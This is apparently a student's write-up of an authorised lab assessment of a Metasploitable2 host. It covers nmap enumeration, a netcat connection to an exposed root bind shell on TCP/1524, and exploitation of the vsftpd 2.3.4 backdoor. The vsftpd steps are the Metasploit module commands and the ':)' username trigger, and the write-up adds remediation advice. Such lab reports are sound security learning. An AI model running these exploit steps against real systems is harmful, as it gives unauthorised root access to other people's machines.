






# Vulnerability Discovery & Validation Lab

**Target:** `metasploitable.pc`  
**IP:** `192.168.0.10`  
**Environment:** Isolated WebSploit lab  
**Assessment type:** Authorised lab security assessment  
**Assessment date:** 25 August 2026

---

## Summary

I assessed the Metasploitable2 host to identify exposed services and safely validate security weaknesses.

Nmap showed a large number of open services. I focused on two findings that resulted in unauthenticated root access:

| ID | Finding | Result |
|---|---|---|
| MS2-001 | Exposed root bind shell on TCP/1524 | Root shell obtained |
| MS2-002 | vsftpd 2.3.4 backdoor on TCP/21 | Root shell obtained |

No persistence, credential dumping, lateral movement, destructive actions, or denial-of-service testing were performed.

---

## Scope

### In scope

```text
metasploitable.pc
192.168.0.10
```

### Testing performed

- Port scanning
- Service/version enumeration
- Default Nmap script enumeration
- Vulnerability research
- Metasploit testing
- Manual Netcat validation
- Harmless root-access verification

### Not performed

- Persistence
- Credential dumping
- Lateral movement
- Destructive actions
- Denial-of-service testing
- Testing outside the authorised lab target

---

## Enumeration

### Service and version scan

I ran:

```bash
nmap -sV -p 21,22,23,25,80,111,139,445,512,513,514,1099,1524,2121,3306,5432,6667,8009,8180,40193 192.168.0.10
```

The scan identified multiple exposed services, including:

| Port | Service | Version / detail |
|:---|---|---|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH 4.7p1 Debian |
| 23 | Telnet | Linux telnetd |
| 25 | SMTP | Postfix smtpd |
| 80 | HTTP | Apache 2.2.8 Ubuntu |
| 139/445 | SMB | Samba |
| 1524 | bindshell | Metasploitable root shell |
| 2121 | FTP | ProFTPD 1.3.1 |
| 5432 | PostgreSQL | PostgreSQL 8.3.x |
| 6667 | IRC | UnrealIRCd |
| 8180 | HTTP | Apache Tomcat |



I also ran default Nmap scripts with version detection:

```bash
nmap -sC -sV -p 21,22,23,25,80,111,139,445,512,513,514,1099,1524,2121,3306,5432,6667,8009,8180,40193 192.168.0.10
```

Useful additional observations included:

- Anonymous FTP was allowed.
- SMB message signing was disabled.
- Samba `3.0.20-Debian` was identified.
- UnrealIRCd `3.2.8.1` was exposed.
- Apache Tomcat `5.5` was exposed on TCP/8180.

I did not test every exposed service further. The two root-access findings below were the ones I validated.

---

## MS2-001 — Unauthenticated Root Bind Shell on TCP/1524

**Severity:** Critical  
**Port:** TCP/1524  
**Service:** Bind shell  
**Result:** Immediate unauthenticated root shell

### Discovery

The Nmap scan identified:

```text
1524/tcp open bindshell Metasploitable root shell
```

I tested the service directly with:

```bash
nc 192.168.0.10 1524
```

The connection immediately gave me a shell without asking for credentials.

### Root verification

I confirmed the shell with:

```bash
whoami
hostname
id
```

The commands confirmed unauthenticated `root` access on `metasploitable`.



### Impact

Any system that can reach TCP/1524 could obtain immediate root-level command execution without authentication.

This is separate from the vsftpd finding and is an even simpler attack path because no exploit module or special trigger is required.

### Remediation

- Remove the exposed bind-shell service.
- Identify and remove whatever process or startup mechanism launches it.
- Restrict unnecessary inbound ports using firewall rules.
- Investigate the host for compromise if this behaviour appears on a real system.
- Rebuild the system from a trusted image if an unexplained root shell is found on a real host.
- Retest TCP/1524 after remediation to confirm the shell is no longer available.

---

## MS2-002 — vsftpd 2.3.4 Backdoor

**Severity:** Critical  
**Port:** TCP/21  
**Service:** FTP  
**Result:** Unauthenticated root shell

### Vulnerability background

[CVE-2011-2523](https://www.cve.org/CVERecord?id=CVE-2011-2523) identifies a backdoor contained in compromised vsftpd 2.3.4 source packages distributed between 30 June and 3 July 2011. The backdoor is triggered through the FTP service on TCP/21 and opens a command shell on TCP/6200.

The two ports have different roles:

```text
TCP/21   → FTP service receives a username containing :)
TCP/6200 → backdoor bind-shell listener accepts the shell connection
```

A `vsftpd 2.3.4` banner alone only indicated that the host might be affected. The open TCP/6200 listener and successful `uid=0(root)` command execution confirmed the vulnerability on this target.

### Discovery

Nmap identified:

```text
21/tcp open ftp vsftpd 2.3.4
```

I researched `vsftpd 2.3.4` and found a matching Metasploit module:

```text
exploit/unix/ftp/vsftpd_234_backdoor
```

I reviewed the module information and then configured the target:

```text
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.0.10
show options
```

### First attempt

I ran:

```text
run
```

The first attempt reached the FTP service but did not create a session.



### Research and manual FTP interaction

After the first attempt failed, I researched how the backdoor worked and learned that the FTP trigger uses a username containing `:)`.

In another terminal I connected to FTP:

```bash
nc 192.168.0.10 21
```

I then sent:

```text
USER test:)
PASS test
```

The FTP interaction sent the known backdoor trigger. The FTP error response alone was not treated as proof of exploitation; the subsequently available listener on TCP/6200 and successful root-level command execution provided confirmation.



### Successful rerun

I returned to Metasploit and ran the module again:

```text
run
```

This time Metasploit reported that the backdoor bind listener was already open, connected to the target on TCP/6200, and opened a command shell.



### Root verification

Inside the shell I used harmless commands to confirm access:

```bash
whoami
hostname
id
```

The commands confirmed that the shell was running as `root` on `metasploitable`.



### Impact

The vulnerability provided unauthenticated command execution as `root`.

An attacker with this level of access could potentially:

- read or modify system data
- change system configuration
- install software
- create users
- establish persistence
- use the host as a pivot point
- disrupt services or destroy data

I did not perform any of those follow-on actions because root access was enough to prove the impact.

### Remediation

- Remove the affected vsftpd 2.3.4 build.
- Replace it with a trusted, patched version.
- Disable FTP if it is not required.
- Restrict FTP access with firewall rules and network segmentation.
- Prefer SFTP/SSH where appropriate.
- Monitor for unexpected listening services.
- Verify software packages come from trusted sources.

---

## Other observations

The assessment also identified several services that were not tested further:

| Port | Observation | Status |
|:---|---|---|
| 23 | Telnet exposed | Observed |
| 139/445 | Samba exposed | Observed |
| 445 | SMB signing disabled | Observed |
| 2121 | ProFTPD 1.3.1 | Observed |
| 6667 | UnrealIRCd | Observed |
| 8180 | Apache Tomcat | Observed |

These are recorded for future investigation but are not claimed as confirmed vulnerabilities in this assessment.

---

## Conclusion

The assessment confirmed two separate paths to unauthenticated root access:

```text
TCP/1524 → exposed bind shell    → root shell
TCP/21   → vsftpd 2.3.4 backdoor → root shell
```

The TCP/1524 finding was the simplest path: a direct Netcat connection immediately provided root access.

The vsftpd finding required more troubleshooting: the first Metasploit attempt failed, so I researched how the exploit worked, manually performed the FTP trigger, reran the module, and then obtained a root shell.

Both findings demonstrate why service enumeration and manual validation are important instead of relying only on automated exploit output.

---

## References

- [CVE-2011-2523 — CVE Program](https://www.cve.org/CVERecord?id=CVE-2011-2523)
